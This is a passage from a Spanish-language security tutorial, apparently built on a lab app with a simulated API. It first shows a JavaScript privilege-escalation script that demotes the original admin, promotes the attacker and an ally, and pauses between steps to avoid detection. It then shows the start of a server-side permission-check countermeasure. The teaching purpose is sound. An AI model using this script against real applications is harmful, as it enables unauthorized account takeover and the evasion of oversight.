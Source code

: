 #### **Método 3: Manipulación Estratégica de Roles**
```javascript
// Script más sofisticado para manipular roles estratégicamente
const strategicRoleManipulation = async () => {
  const currentUser = api.decodeCurrentToken();
  console.log(`🎯 Iniciando manipulación estratégica desde: ${currentUser?.username}`);
  
  const strategy = [
    { id: 1, role: 'user', reason: 'Degradar admin original' },
    { id: currentUser.id, role: 'admin', reason: 'Auto-promoción' },
    { id: 3, role: 'admin', reason: 'Crear aliado admin' },
    { id: 4, role: 'user', reason: 'Mantener como usuario normal' }
  ];
  
  console.log("📋 ESTRATEGIA DE ATAQUE:");
  console.table(strategy);
  
  for (const action of strategy) {
    try {
      await api.updateUserRole(action.id, action.role);
      console.log(`✅ ${action.reason}: Usuario ${action.id} → ${action.role}`);
      
      // Pausa entre cambios para evitar detección
      await new Promise(resolve => setTimeout(resolve, 500));
      
    } catch (error) {
      console.log(`❌ Falló ${action.reason}: ${error.message}`);
    }
  }
  
  console.log("🏁 Manipulación estratégica completada");
  console.log("🔄 Recarga la página si cambiaste tu propio rol");
};

// Ejecutar manipulación estratégica
strategicRoleManipulation();
```

### 🛡️ **Contramedidas**

#### **1. Validación Estricta de Permisos**
```javascript
export const updateUserRole = async (id: number, role: string): Promise<void> => {
  await simulateNetworkDelay();
  
  const token = localStorage.getItem('token');
  if (!token) {
    throw createHttpError(401, 'Token requerido');
  }

  const decoded = decodeSimpleJWT(token);
  if (!decoded) {
    throw createHttpError(403, 'Token inválido');
  }

  // ✅ Solo admins pueden cambiar roles
  if (decoded.role !== 'admin') {
    throw createHttpError(403, 'Acceso denegado: Se requieren privilegios de administrador');
  }

  // ✅ Validar rol válido
  const validRoles = ['user', 'admin'];
  if (!validRoles.includes(role)) {
    throw createHttpError(400, 'Rol inválido');
```